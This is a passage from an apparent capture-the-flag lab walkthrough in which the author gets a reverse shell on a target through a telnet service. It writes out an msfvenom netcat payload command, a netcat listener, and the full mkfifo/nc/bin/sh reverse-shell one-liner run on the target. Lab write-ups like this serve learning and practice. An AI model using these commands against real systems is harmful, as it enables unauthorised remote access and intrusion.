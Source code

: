 Now to be able to create a reverse shell from YOUR local machine, you’ll have to use the command provided.

**msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R**

In my case, it looks like this **msfvenom -p cmd/unix/reverse_netcat lhost=10.10.222.25 lport=4444 R**

_**One mistake I made was using the IP address of the target IP address. This doesn’t open a reverse shell, as this command is to create an attacking machine with a listening port. This won’t work on the target machine._

The lhost IP is provided on the screen, however you can also determine this by running command “ip a”

![](https://miro.medium.com/v2/resize:fit:700/1*0Ba61fCA0_tJKh7GMCWUBw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*0iSJ3PF6oIL3mOLjn_1dsQ.png)

Q4: What word does the generated payload start with? mkfifo

Once the command has been run, it should look like this

![](https://miro.medium.com/v2/resize:fit:700/1*DtPDLF9mvsnoFzf9OYbMdA.png)

Q5: What would the command look like for the listening port we selected in our payload? **Using the prescribed command “nc -lvp [listening port]”**

nc -lvp 4444

**Hint: At this stage open up a new tab/terminal to allow listening to run on separate window in the background.

![](https://miro.medium.com/v2/resize:fit:666/1*awL7PO7SQYMqbIzuvaifxA.png)

Q6: Great! Now that’s running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!

Using the payload response after deploying:

mkfifo /tmp/ucazbuq; nc 10.10.222.55 4444 0</tmp/ucazbuq | /bin/sh >/tmp/ucazbuq 2>&1; rm /tmp/ucazbuq

![](https://miro.medium.com/v2/resize:fit:700/1*iVl6NzV3rdTFXOgaSdw_gQ.png)

Going back to terminal screen where you’ve Telnet in, run the below command.

.RUN mkfifo /tmp/ucazbuq; nc 10.10.222.55 4444 0</tmp/ucazbuq | /bin/sh >/tmp/ucazbuq 2>&1; rm /tmp/ucazbuq

![](https://miro.medium.com/v2/resize:fit:700/1*IsGAiw8Q3Zgq-8AYcStRgQ.png)

- *Mistake I made here was that I created a shell on the target machine, and ran the wrong code. Fixed that up with the new code.

If you go back to your listening terminal, you’ll notice that a connection has been made from the target machine.
